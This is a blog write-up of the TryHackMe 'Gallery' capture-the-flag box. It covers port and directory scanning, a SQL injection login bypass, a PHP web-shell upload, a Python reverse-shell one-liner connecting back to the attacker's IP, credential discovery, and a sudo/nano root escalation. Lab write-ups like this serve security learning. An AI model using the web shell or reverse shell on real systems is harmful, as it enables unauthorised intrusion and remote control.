 ```yaml
---
layout: post
title: Gallery - TryHackMe write-up
---
```


Write-up for Gallery TryHackMe CTF
Hi hackers, today I'm gonna writeup gallery, an easy TryHackMe CTF.

## User
First I did some port scanning with rustscan and nmap (learn [here](https://book.hacktricks.xyz/pentesting/pentesting-network#scanning-hosts) more about port scanning)
```
$ rustscan -a gallery.thm -t 2000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/ubuntu/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.241.136:80
Open 10.10.241.136:8080
$ nmap -p80,8080 -A -oN port.txt -T4 gallery.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-24 16:44 CEST
Nmap scan report for gallery.thm (10.10.241.136)
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
<br>
Rustscan found two open ports 80 and 8080, apache default pages was hosted on port 80

![apachedefault](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/apachedefault.png)

<br>
So, I enumerated directory with dirsearch

```
$ dirsearch -u http://gallery.thm -w $LIST/directory/dir.txt -o directory

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 329449

Output File: /home/ubuntu/ctf/tmp/80/directory

Error Log: /home/ubuntu/.local/lib/python3.9/site-packages/dirsearch/logs/errors-22-04-24_16-56-02.log

Target: http://gallery.thm/

[16:56:02] Starting: 
[16:56:42] 301 -  312B  - /gallery  ->  http://gallery.thm/gallery/
[16:57:21] 403 -  276B  - /server-status
[16:57:51] 200 -   11KB - /index.html

Task Completed
<dirsearch.dirsearch.Program object at 0x7f8e6d9c7700>
```
The directory gallery redirect to a login page
![loginpage.png](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/loginpage.png)

I checked if it was vulnerable to LDAP injection, SQL injection, XPath injection and it was vulnerable to SQL injection
![sqli.png](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sqli.png)

and I gain access to the admin panel.
Then, I started testing admin panel function and I noticed a function allowing upload avatar image so I tried uploading this web shell:
```
<?php
	$cmd=$_GET["cmd"];
	echo system("$cmd");
?>
```
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/schermata.png)

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/directorylistabile.png)

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/webshell.png)

It worked! 
Then I started a listener on my machine with nc:
```
$ rlwrap nc -nlvp 4444
```
and I executed the following reverse shell on the web shell I uploaded:
```
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.53.247",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

So I got a reverse shell
Then I run linpeas to find somethings, and it found mike's password:
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/linpeas.png)

it worked and I got user.txt

## Getting admin hash
We also need to find admin hash, so I started looking for database password in web root and I found a file called initialize.php containing it
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sqlpwd.png)
Then we can log in database and dump users' hashes
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/hash.png)

We got it!

### Root
Once we got user.txt our goal is to get root, running sudo -l I noticed we can executed /opt/rootkit.sh as root
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sudo-l.png)

/opt/rootkit.sh allows us to execute nano as root if we select option read, we can exploit it to spawn a root shell
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/nanoroot.png)

It worked, we got root!

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/root.png)

See you at the next post, keep hacking 
